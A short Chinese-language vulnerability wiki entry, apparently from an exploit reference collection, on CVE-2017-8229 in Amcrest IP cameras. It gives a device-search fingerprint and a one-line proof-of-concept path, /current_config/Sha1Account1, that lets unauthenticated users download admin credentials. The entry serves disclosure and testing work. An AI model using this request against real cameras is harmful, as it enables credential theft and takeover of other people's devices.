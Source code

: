 # Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

<a-checkbox checked>Amcrest Technologies. Amcrest IP Camera Web all</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Amcrest"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1645547044365-31c4c6ae-c9cd-4c34-88ce-1c31810a0ed8.png)

验证POC

```javascript
/current_config/Sha1Account1
```

![img](/assets/PeiQi-Wiki/img/1645547183330-ef08c3d4-1cb6-4e93-a70f-8ec772da2798.png)